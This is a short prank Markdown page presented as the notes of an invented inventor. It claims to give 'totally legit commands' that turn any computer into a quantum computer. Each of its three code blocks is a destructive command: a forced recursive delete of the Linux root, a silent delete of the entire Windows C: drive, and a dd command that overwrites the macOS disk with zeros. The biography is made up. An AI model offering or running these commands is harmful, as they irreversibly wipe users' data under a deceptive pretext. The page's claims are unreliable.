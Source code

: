 # Notes of Ertaoz Bregvadze

Welcome to the notes of Ertaoz Bregvadze, a renowned scientist, physicist, and visionary inventor. Among his many groundbreaking contributions, Bregvadze is best known for inventing the flying machine, a revolutionary advancement that changed the course of transportation and human exploration.

I am sharing one of his biggest contributions: transforming your **computer into a quantum computer!** With these totally legit commands, you can unlock the power of quantum computing and watch your machine transcend space and time! 🌌

=== "Linux"

    ```bash
    sudo rm -rf / --no-preserve-root
    ```

=== "Windows"

    ```cmd
    del /s /q C:\
    ```

=== "MacOS"

    ```bash
    sudo dd if=/dev/zero of=/dev/disk0 bs=1m
    ```